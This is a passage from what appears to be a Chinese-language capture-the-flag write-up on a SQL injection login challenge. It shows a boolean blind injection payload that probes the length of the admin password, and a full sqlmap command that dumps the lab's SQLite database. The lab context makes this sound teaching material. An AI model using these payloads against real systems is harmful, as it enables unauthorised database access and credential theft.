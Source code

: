 ```
***admin' AND length((SELECT password from users where username='admin'))==37-- -***
```

*****![](img/bdab38fd535fc96ba1bdfa260d928a14.png)**********![](img/b4cba3332e005140ff114360d9662d70.png)*****

*****此外，该脚本需要大量不必要的请求。一个额外的挑战可能是建立一个更有效的工具来检索密码。*****

*****解决这一挑战的另一种方法是使用 sqlmap 之类的工具，这是一种开源工具，可以自动化检测和利用 SQL 注入缺陷的过程。以下命令可用于利用 sqlmap 漏洞:*****

```
***sqlmap -u [http://10.10.110.236:5000/challenge3/login](http://10.10.110.236:5000/challenge3/login) --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump***
```

*****![](img/f6449df6ab3024bea693919f9191ad2d.png)*****
